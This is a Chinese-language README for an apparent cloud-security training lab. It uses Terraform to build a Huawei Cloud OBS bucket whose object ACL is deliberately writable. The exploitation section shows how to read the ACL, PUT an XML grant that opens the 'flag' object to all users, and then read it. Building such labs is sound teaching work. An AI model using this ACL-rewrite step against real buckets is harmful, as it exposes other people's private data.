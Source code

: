 # 华为云 OBS Object ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建华为云对象存储 Object ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Object 的 ACL 策略读取到原本不能读取的数据。

## 环境搭建

在容器中运行

```shell
cd /TerraformGoat/huaweicloud/object_storage_service/object_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `huaweicloud_access_key` 和 `huaweicloud_secret_key`

> 在华为云「控制台 --》我的凭证」处可以找到访问密钥

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![image](../../../images/1650779200.png)

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Object ACL 读取和写入权限，Object Key 为 flag

## 漏洞利用

尝试读取 flag 文件，发现提示访问拒绝

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

尝试读取 flag 文件的 ACL 策略，发现可以读取

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

尝试使用 PUT 方法上传 flag 文件的 Object ACL 策略，在原有策略的基础上增加以下策略，发现可以上传

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

再次尝试读取 flag 文件，可以看到成功读取到 flag 文件

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## 销毁环境

```shell
terraform destroy
```
